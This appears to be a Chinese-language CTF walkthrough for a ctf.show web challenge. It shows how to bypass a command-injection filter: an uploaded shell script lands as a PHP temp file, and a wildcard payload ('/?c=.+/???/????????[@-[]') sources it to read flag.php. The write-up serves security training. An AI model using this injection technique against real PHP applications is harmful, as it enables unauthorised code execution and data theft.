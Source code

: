 # 知识点
知识点与web55相同，主要详细讲解思路
# 思路
我们知道shell能够通过. file 来执行任意脚本文件<br />所以我们写一个上传文件的页面
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://605c87f0-67c2-4161-a2a6-d8b2544f76c6.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
上传的文件php回保存在临时的文件tmp目录中以php再加上六位随机大小写字母命名,当前脚本执行完后，上传的临时文件便会被删除<br />我们通过抓包抓取上传文件的请求报文<br />修改目录请求为如下，来通过通配符尝试匹配文件
```php
/?c=.+/???/????????[@-[] 
```
修改文件内容,#!/bin/sh表示文件执行shell脚本
```

#!bin/sh

cat flag.php
```
因为文件命名的大小写是随机的，所以可能要多尝试请求几次才能拿到flag.php的回显<br />![image.png](./images/20231017_2350584112.png)
